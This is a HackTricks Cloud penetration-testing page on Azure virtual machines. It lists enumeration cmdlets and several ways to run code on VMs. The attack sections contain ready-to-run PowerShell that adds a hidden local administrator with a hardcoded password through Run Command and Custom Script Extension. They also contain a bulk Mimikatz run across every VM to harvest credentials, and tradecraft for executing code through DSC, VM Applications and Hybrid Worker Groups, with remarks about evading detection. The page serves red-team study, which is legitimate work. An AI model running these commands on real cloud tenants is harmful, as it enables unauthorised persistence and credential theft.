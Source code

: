 # Az - Virtual Machines

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic information

Azure virtual machines are one of several types of [on-demand, scalable computing resources](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) that Azure offers. Typically, you choose a virtual machine when you need more control over the computing environment than the other choices offer. This article gives you information about what you should consider before you create a virtual machine, how you create it, and how you manage it.

## Enumeration

```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```

## **Run commands in a VM**

### **Run Command**

```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd 
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

### **Run Custom Script Extension**

Azure virtual machine (VM) extensions are **small applications** that provide post-deployment configuration and automation **tasks** on **Azure VMs**. For example, if a virtual machine requires software installation, antivirus protection, or the ability to run a script inside it, you can use a VM extension.

Therefore, if you have access to write it, you can execute arbitrary code:

```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```

### DesiredConfigurationState

**DesiredConfigurationState (DSC)** is similar to Ansible, but is a tool within PowerShell that allows a host to be setup through code. DSC has its own extension in Azure which allows the upload of **configuration files**. DSC [configuration files](https://docs.microsoft.com/en-us/powershell/dsc/getting-started/wingettingstarted?view=dsc-1.1#define-a-configuration-and-generate-the-configuration-document) are quiet picky when it comes to syntax, however the DSC extension is very gullible and will **blindly execute any command** anything as long as it follows a certain format, as shown in figure 5.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

This can be done via the **Az PowerShell** function [**`Publish-AzvmdscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0). The DSC extension requires a **.PS1** with a **function** and **packaged** in a **.zip** file. Since this actually isn’t correct DSC syntax, the extension status will read as “failure”, however the code will be executed. The issue with this is that there is no output of the command, as the status is overwritten with the failure message.

### VM Application Definitions

The [VM Applications](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications) resource is a way to **deploy versioned applications repeatably** to an Azure VM. For example, if you create a **program** and **deploy** it to all Azure VMs as version 1.0, once you **update** the program **to 1.1**, you can use the same VM Application to **create another definition** and push the update out to any VM.\
Being able to **push out an application** to a VM means it’s another avenue for **code execution**. This method’s drawback is that setting up the Application Definition [**requires a few steps**](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications-how-to?tabs=portal), but can be accomplished using the **`New-AzGalleryApplication`** and **`New-AzGalleryApplicationVersion`** cmdlets in Az PowerShell.

This technique works by utilizing an **extension “VMAppExtension”** which is automatically installed when applying an application to a VM. The extension downloads the file from the URI to disk as the name of the Application _exactly_, meaning if application name is ‘AzApplication’, the file on disk is also called ‘AzApplication’ with no extension. This requires the “ManageActions” field in the [REST API call](https://docs.microsoft.com/en-us/rest/api/compute/gallery-application-versions/create-or-update) to be configured to rename the application with the appropriate extension. If you don’t want to run an entire application, arbitrary PowerShell commands can be run by also abusing the ManageActions field in the same REST API method or also through the Azure Portal. Once set up, the definition will be similar to figure 8.

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

This execution technique is unfortunately slow (about 3-4 minutes to execute an app or command), however with it being relatively new I would be surprised if there’s any specific detections written.

Since it’s an extension that ultimately does the execution, a copy of the application is located at `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` and the status of the execution is kept in `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`.

### Hybrid Worker Groups

****[**Hybrid Worker Groups**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) (HWGs) allow a configured **Runbook** in an Automation Account to be **ran** on an **Azure Virtual machine** that is part of the **configured HWG**. Once again, an **extension is used** on the VM to deploy the Runbook code onto the VM. Since an extension is used, credentials are irrelevant and the code is executed as **SYSTEM** or root.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

If using a Windows 10 VM, it’s important to have the Runbook run as PowerShell Version 5.1 instead of 7.1, as 7.1 isn’t installed on the VMs by default and the script will fail to run.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
